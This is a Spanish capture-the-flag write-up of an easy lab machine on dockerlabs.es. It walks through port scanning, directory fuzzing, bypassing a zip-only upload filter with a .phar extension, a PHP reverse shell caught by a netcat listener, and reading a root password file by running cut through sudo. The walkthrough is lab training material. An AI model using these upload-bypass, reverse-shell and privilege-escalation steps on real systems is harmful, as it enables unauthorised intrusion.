 ```yaml
---
title: "dockerlabs.es: máquina Dockerlabs"
published: true
date: 2024-05-18 10:10:00
tags: [DirBuster, Web Application Brute Forcing, Directory Enumeration, File Upload Vulnerability, Reverse Shell, Netcat, Privilege Escalation, Linux, Sudo Exploit, CTF, Capture The Flag, Penetration Testing, Kali Linux, Information Security, Cybersecurity, Post-Exploitation, Root Access, File Enumeration, Command Injection, Brute Force Attack, CTF Writeup, Exploit Development, Shell Access, Linux Privilege Escalation]
image: /blog/assets/dockerlabs.es_dockerlabs/portada.png
---
```





<br>
![](/blog/assets/dockerlabs.es_dockerlabs/portada.png)
<br>




### Descripción
* * *
<br>
En este writeup, detallamos nuestro proceso de vulneración de una máquina en nuestro laboratorio de pentesting. Utilizamos herramientas como DirBuster para realizar una enumeración de directorios y archivos sensibles. Descubrimos una vulnerabilidad en la subida de archivos que nos permitió ejecutar un shell reverso con Netcat. Posteriormente, logramos una escalada de privilegios en un sistema Linux mediante la explotación de configuraciones incorrectas de sudo. Este writeup cubre todas las etapas del ataque, desde la recolección de información hasta la obtención de acceso root, proporcionando una visión completa de las técnicas y herramientas empleadas en el proceso.


### Enlace de Lab:
[dockerlabs.es: Dockerlabs](https://www.dockerlabs.es/).




### Dificultad:
Fácil.












### Solución
* * *
<br>




Para iniciar el proceso de `vulnerar` esta máquina, lo primero que haremos es con ayuda de `nmap` ver a qué nos estamos enfrentando.




``` shell
nmap -p- -Pn  -sS --min-rate 5000 --open 172.17.0.2 -oX report.xml -v
```
donde:




`-p-`: Escanea todos los puertos existentes (0-65365)




`-Pn`: Evita que `nmap` realice un descubrimiento de host antes de realizar el escaneo




`-sS`: Realiza un escaneo de puertos TCP mediante un escaneo SYN. Esto implica enviar un paquete SYN y esperar una respuesta; si el puerto está abierto, el host responderá con un paquete SYN-ACK




`--min-rate`: Configura la tasa mínima de paquetes enviados a 5000 paquetes por segundo. Esto acelera el escaneo, ya que `nmap` enviará paquetes a una tasa muy alta




`--open`: Esta opción le indica a `nmap` que sólo muestre los puertos que están abiertos.




`-oX`: Guarda la salida del escaneo en un archivo XML llamado `report.xml`




`-v`: Aumenta la verbosidad de la salida de `nmap`, proporcionando más detalles sobre lo que está haciendo `nmap`.




<br>
![](/blog/assets/dockerlabs.es_dockerlabs/paso_1.JPG)
<br>




Obtenemos 1 puerto abierto, `80 -> http`  .




Ahora es momento de ver con qué versiones nos estamos enfrentando de cada servicio. Para ello implementamos el código:




```shell
nmap -sCV -p80 172.17.0.2-oN ports_version
```




Donde:




**`-sC`**Esta opción le dice a `nmap` que ejecute scripts predeterminados contra los puertos encontrados.
 **`-sV`**: Le indica a `nmap` que intente determinar la versión de los servicios que se están ejecutando en los puertos abiertos.




>*sCV es la combinación de ambos comandos*.


<br>
![](/blog/assets/dockerlabs.es_dockerlabs/paso_2.JPG)
<br>


Nos fijamos que tiene un puerto abierto.




`puerto 80`: servicio http








Lo primero que haremos es ver los vectores de entrada que tiene el `puerto 80`, vemos que el servicio `Apache` a dia de hoy no tiene ninguna vulnerabilidad. Así que nos tocará navegar en la web para ver la fuga de información.






<br>
![](/blog/assets/dockerlabs.es_dockerlabs/paso_3.JPG)
<br>


Vemos que es una web bastante similar a la web principal de `dockerlabs.es`. No hay nada relevante en el `source code`, así que nos tocaría hacer un fuzzing web.


En este caso utilizaremos `dirb buster`, una herramienta para hacer fuzzing web de una manera un tanto visual, simplificando nuestra actividad.




Lo configuramos de la siguiente forma e iniciamos el escaneo


<br>
![](/blog/assets/dockerlabs.es_dockerlabs/paso_4.JPG)
<br>


Encontramos varias rutas interesantes:




<br>
![](/blog/assets/dockerlabs.es_dockerlabs/paso_5.JPG)
<br>




`uploads`: Es una carpeta donde se almacenan archivos que posiblemente se suban por alguna ruta.


`uploads.php`: Es un archivo php el cual no puede ser leído, es posiblemente el script intermediario encargado de subir archivos a `uploads`


`machine.php`: El más interesante de los 3, consta de un formulario en el cual se pueden subir archivos que se almacenarán en el directorio `uploads`


<br>
![](/blog/assets/dockerlabs.es_dockerlabs/paso_6.JPG)
<br>


Este es el contenido de `machine.php` el cual nos pide que ingresemos un archivo a subir. Intentamos subir un archivo `txt` y nos dira el error de que `solo se permiten archivos zip`




Como evidentemente estamos frente a una posible `Arbitrary File Upload Vulnerability`.


Abrimos `burp suite` para simplificar la tarea, subimos un archivo. Capturamos la request y la enviamos al `repeater`. Allí modificaremos extensiones hasta que encontremos una diferente a `zip` que pueda ser interpretada por el servidor y a la vez se salte las validaciones.


Para `PHP` tenemos las siguientes `extensiones bypass` encontradas en hacktricks [^1]


`PHP`: .php, .php2, .php3, .php4, .php5, .php6, .php7, .phps, .phps, .pht, .phtm, .phtml, .pgif, .shtml, .htaccess, .phar, .inc, .hphp, .ctp, .module




Damos con la extensión correcta que es `phar` y nos creamos una `reverse shell` y la enviamos mediante `burp suite` con las siguientes características:




<br>
![](/blog/assets/dockerlabs.es_dockerlabs/paso_7.JPG)
<br>




Abrimos una `shell` en modo de escucha con `nc` mediante el código:


```shell
nc -lvnp 443
```


<br>
![](/blog/assets/dockerlabs.es_dockerlabs/paso_8.JPG)
<br>




Vamos al directorio `uploads` y presionamos sobre el archivo `reverse.php` y cuando vayamos a nuestro `nc` en modo de escucha nos aparecerá lo siguiente:


<br>
![](/blog/assets/dockerlabs.es_dockerlabs/paso_9.JPG)
<br>


Ya tenemos acceso como el usuario `www-data` al servidor


Ahora es momento de tratar la bash, más que nada para poder hacer `ctrl+c` sin matar la `reverse shell` y `ctrl+l` para poder limpiar la pantalla:


```bash
script /dev/null -c bash
```


`ctrl+z`


```bash
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
```


Si hacemos nano, vi o cat, la pantalla nos aparecerá pequeña y no podremos crear archivos con total libertad. Para ello, corremos lo siguiente:


Abrimos una terminal nueva y corremos:


```bash
stty size
```


<br>
![](/blog/assets/dockerlab.es_upload/bash.png)
<br>
Nos aparecerán dos números, el primero corresponde a las `rows` y el segundo a `columns`.


Abrimos la `reverse shell` y corremos el siguiente código:


```bash
stty rows 24 columns 128
```


Buscando formas para `escalar privilegios` corremos el comando `sudo -l`.


<br>
![](/blog/assets/dockerlabs.es_dockerlabs/paso_12.JPG)
<br>


vemos que tenemos acceso como `sudo` a unos binarios que pueden leer archivos con permisos de `root`.




Vamos a las rutas más comunes donde puede haber algo de información y en `/opt/` encontramos algo interesante:
<br>
![](/blog/assets/dockerlabs.es_dockerlabs/paso_11.JPG)
<br>




Vamos a GTFObins[^2] y vemos cómo explotar estos binarios


```shell
LFILE=file_to_read
sudo cut -d "" -f1 "$LFILE"
```


Pues corremos el comando


```shell
sudo /usr/bin/cut -d "" -f1 "/root/clave.txt"
```


<br>
![](/blog/assets/dockerlabs.es_dockerlabs/paso_13.JPG)
<br>


Obtenemos la clave de `root` la cual es `dockerlabsmolamogollon123`




Intentamos hacer login como `root` y la `password` encontrada


<br>
![](/blog/assets/dockerlabs.es_dockerlabs/paso_14.JPG)
<br>




y somos usuarios `root`




### _Referencias_
* * *
[^1]: [hacktricks: File extension Bypass](https://book.hacktricks.xyz/pentesting-web/file-upload)


[^2]: [GTFObins](https://gtfobins.github.io/)

